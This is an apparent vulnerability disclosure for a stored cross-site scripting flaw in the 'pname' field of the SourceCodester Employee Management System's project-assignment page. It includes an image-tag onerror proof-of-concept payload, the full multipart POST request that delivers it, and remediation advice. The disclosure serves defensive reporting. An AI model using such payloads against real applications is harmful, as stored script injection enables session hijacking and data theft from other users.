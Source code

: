 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - XSS Vulnerability in Project Assignment Report

### Title: XSS Vulnerability in Project Assignment
### Affected Component: /process/assignp.php
### CWE: TBD (Cross-Site Scripting)
### CVSS Base Score:  6.8 (Self-rated with the assistance of an online CVSS calculator)

### Summary:
The web application is vulnerable to cross-site scripting (XSS) attacks within the project assignment functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "pname" parameter, which is used to assign project names. When unsuspecting users view the assigned project names, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "pname" parameter while assigning a project. For example, submitting the payload `<img src=x onerror=alert(1)>` as the project name triggers an alert box when viewed by other users. This demonstrates the successful execution of arbitrary scripts within the application.

#### HTTP Request:
```http
POST /process/assignp.php HTTP/1.1
Host: localhost:8080
Content-Length: 366
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://localhost:8080///assign.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="eid"

648309
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="pname"

<img src=x onerror=alert(1)>
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="duedate"

2024-02-09
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB--
```

### Proof with Screenshot:
![XSS Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/SOURCECODESTER%20EMPLOYEE%20MANAGEMENT%20SYSTEM/XSS%20Vulnerability%20in%20Project%20Assignment%20Report.png?raw=true)

### Remediation:
To mitigate the XSS vulnerability, the application should implement proper input validation and output encoding techniques to sanitize user-supplied data before rendering it in the application's responses. Specifically, the "pname" parameter should be sanitized to ensure that it does not contain any executable code. Additionally, implementing content security policies (CSP) and regularly auditing the application's codebase for security vulnerabilities can further enhance its resilience against XSS attacks.
